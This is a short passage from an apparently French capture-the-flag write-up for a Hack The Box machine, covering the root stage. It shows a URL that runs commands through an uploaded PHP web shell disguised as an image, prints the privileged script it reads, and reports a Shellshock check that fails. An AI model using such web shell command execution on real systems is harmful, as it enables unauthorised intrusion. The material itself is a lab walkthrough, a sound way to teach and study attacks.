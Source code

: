 2- Root.txt

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=cat%20/usr/local/sbin/changename.sh

~~~
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
~~~

Les versions de bash inférieur à 4.3 sont vulnerable au Shellshock: https://resources.infosecinstitute.com/practical-shellshock-exploitation-part-1/#gref

Ici:

~~~
bash --version
GNU bash, version 4.2.46(2)-release (x86_64-redhat-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
~~~

On test avec la commande basique mais le systeme est pas vulnérable au Shellshock :( 

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)
[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
